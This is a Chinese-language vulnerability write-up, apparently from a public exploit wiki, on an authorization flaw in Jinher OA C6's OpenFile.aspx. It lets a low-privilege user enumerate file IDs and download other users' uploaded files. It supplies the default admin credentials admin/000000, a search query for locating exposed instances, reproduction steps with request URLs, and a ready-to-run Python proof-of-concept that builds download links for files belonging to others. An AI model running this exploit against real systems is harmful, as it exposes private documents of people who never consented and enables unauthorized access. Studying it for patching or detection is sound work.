

# 金和OA C6 OpenFile.aspx 后台越权敏感文件遍历漏洞

## 漏洞描述

金和OA C6 存在后台越权敏感文件遍历漏洞，普通用户通过遍历特殊参数可以获取其他用户上传的敏感文件

## 漏洞影响

```
金和OA C6
```

## 网络测绘

```
app="Jinher-OA"
```

## 漏洞复现

默认用户口令：admin/000000

登录后点击信息交流，发起协同页面


上传附件并上传发送给目标

- 这里登录权限为管理员，我们自己发给自己就好，前文只是展现漏洞挖掘思路过程


成功收到上传的附件


点击查看时抓包，发现一个带有文件ID的请求包


返回了几个参数

```plain
var strFilePath = '../Resource/slaves/1/8b473ecb-7b39-4384-ada2-b0ec72c4f6ed.png';
var strFileType = 'png';
var strSid='3jvpvhs410m2wdbbficax5q5';
var strFileIDCode='us9w7xWE7do=';
var strId = '1229';
var strTxtReg = 'txt,ini,xml,config,htm,html,js,css,asp,aspx,jsp,cs,sql,inf,htc,log';
var strImgReg = 'jpg,gif,jpeg,png,ico';
var MD = '';
```

其中我们注意到 strFilePath 为文件的存储地址，我们更改 id参数为另一个值，且测试后发现 name文件名参数无关紧要


更改ID后发送请求包发现获得另一个文件的信息

访问Url，注意 **type参数**  需要为正确的文件后缀才可以访问

```plain
http://xxx.xxx.xxx.xxx/C6/control/OpenFile.aspx?id=1200&name=&type=pdf
```


这里更换一个普通用户测试是否可行，尝试遍历 id


存在 **strFilePath参数** 则是存在文件，为空则是文件已经不存在

同时抓包下载文件页面也可以看到可获取的参数

**FileID 与 FileIDCode**


于是只需要通过刚刚的ID遍历，获取两个关键参数就能下载其他人发送的敏感文件，且只需要普通用户权限

## 漏洞POC

- POC只检测是否存在漏洞，且漏洞存在于后台需要登录
- 运行后访问链接即可下载文件

```python
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 金和OA C6                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, file_id, cookie):
    vuln_url = target_url + "/C6/control/OpenFile.aspx?id={}&name=&type=pdf".format(file_id)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie":cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 Url: {}\033[0m".format(vuln_url))
        if "strFilePath =" in response.text and response.status_code == 200:
            strFilePath = re.findall(r"var strFilePath = '(.*?)';", response.text)[0]
            strFileType = strFilePath[-3:]
            strFileIDCode = re.findall(r"var strFileIDCode='(.*?)';", response.text)[0]
            strId = re.findall(r"var strId = '(.*?)';", response.text)[0]
            sid = re.findall(r'ASP.NET_SessionId=(.*?);', cookie)[0]
            if strFilePath != "":
                print("\033[36m[o] 目标 {} 存在漏洞, 获取文件信息:\n[o] 文件路径：{}\n[o] 文件类型：{}\n[o] 文件ID code：{}\n[o] 文件编号： {}\033[0m".format(target_url, strFilePath, strFileType,strFileIDCode, strId ))
                print("\033[32m[o] 文件下载链接为: {}/C6/JHSoft.Web.CustomQuery/uploadFileDownLoad.aspx?Decrypt=&FileID={}&FileIDCode={}&sid={}".format(target_url, strId, strFileIDCode, sid))
            else:
                print("\033[31m[x] 目标 {} 文件不存在     \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞     \033[0m".format(target_url))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_id = str(input("\033[35mFile_id >>> \033[0m"))
    cookie = str(input("\033[35mCookie  >>> \033[0m"))
    POC_1(target_url, file_id, cookie)
```

